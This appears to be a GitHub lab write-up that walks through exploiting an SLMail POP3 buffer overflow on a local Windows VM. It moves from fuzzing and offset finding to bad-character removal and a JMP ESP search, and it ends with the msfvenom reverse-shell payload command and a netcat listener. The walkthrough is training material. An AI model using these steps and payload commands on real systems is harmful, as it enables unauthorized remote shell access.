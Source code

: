 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Initialized the BOF machine, accessed the command prompt as an administrator, and ran “slmgr /rearm” and “ipconfig” to determine the machine's IP address as “10.0.2.10”.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF1.png" alt="">
</p>


- Installed “12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe” on the Windows VM, rebooted it, and created a desktop shortcut for “SLmail.cpl”.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF2.png" alt="">
</p>


- Opened both “SLmail.cpl” & “Immunity debugger” with administrative rights.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF3.png" alt="">
</p>


- In “Immunity debugger”, attached the “SLmail.exe” file and ensured it's actively running.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-2.png" alt="">
</p>

- On my Kali machine, downloaded the fuzzer script labeled “fuzzerScript.py” and stored it in a “BOF” folder on my desktop.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF5.png" alt="">
</p>


- In the same folder, created and edited a file named “fuzzy.py”. Line 13 requires the target IP address and port number.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF6.png" alt="">
</p>


- Conducted an nmap scan on the target VM to confirm open ports and noted the active “pop3” protocol.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF7.png" alt="">
</p>


- Updated “fuzzy.py” with the target IP address and port, then saved changes.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF8.png" alt="">
</p>


- Navigated to the BOF directory and executed the “fuzzy.py” script using the “python2 fuzzy.py” command.

<p align="center">
  <img src="" alt="">
</p>


- Observed the EIP update to “41414141” in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>


- Generated an MSF pattern of 3000 bytes using the “msf-pattern_create -l 3000” command to pinpoint control flow locations.

<p align="center">
  <img src="" alt="">
</p>


- Updated the “fuzzy.py” script's buffer with the generated MSF pattern and removed unnecessary loops.

<p align="center">
  <img src="" alt="">
</p>


- Reset SLmail.cpl and the Immunity debugger, re-executed the “fuzzy.py” script, and noted the updated EIP value in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>


- Determined the exact memory offset using the “msf-pattern_offset -l 3000 -q 39694438” command.

<p align="center">
  <img src="" alt="">
</p>


- Validated the offset by adjusting the buffer in “fuzzy.py” and observing the Immunity debugger's EIP value.

<p align="center">
  <img src="" alt="">
</p>


- Incorporated a list of potential bad characters into the “fuzzy.py” buffer to refine the exploit.

<p align="center">
  <img src="" alt="">
</p>


- Re-executed the adjusted “fuzzy.py” script and followed the ESP in dump within Immunity debugger to identify and remove any bad characters.

<p align="center">
  <img src="" alt="">
</p>


- Identified certain characters as "bad" and removed them from the "fuzzy.py" buffer.

<p align="center">
  <img src="" alt="">
</p>


- Re-executed the "fuzzy.py" script with the refined buffer and monitored the outcome in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>


- Searched for mona modules using the “!mona modules” command and identified a suitable dll with “!mona find -s "\xff\xe4" -m SLMFC.DLL”.

<p align="center">
  <img src="" alt="">
</p>


- Crafted a shell code using the “msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"” command.

<p align="center">
  <img src="" alt="">
</p>


- Integrated the shell code into “fuzzy.py” and adjusted the buffer accordingly.

<p align="center">
  <img src="" alt="">
</p>


- Established a netcat listener on the Kali machine using “nc -lvp 4444”.

<p align="center">
  <img src="" alt="">
</p>


- Restarted SLmail, ran the “fuzzy.py” script, and achieved system access with highest-level permissions as confirmed by the “whoami” command.

<p align="center">
  <img src="" alt="">
</p>

